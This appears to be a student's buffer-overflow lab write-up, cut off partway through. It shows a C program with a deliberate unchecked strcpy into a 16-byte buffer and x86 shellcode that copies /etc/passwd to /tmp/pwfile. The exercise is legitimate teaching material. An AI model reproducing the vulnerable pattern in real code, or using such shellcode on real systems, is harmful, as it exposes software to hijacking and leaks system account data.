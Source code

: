 # Lab #1,22110076, Tran Trung Tin, INSE33038E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
```
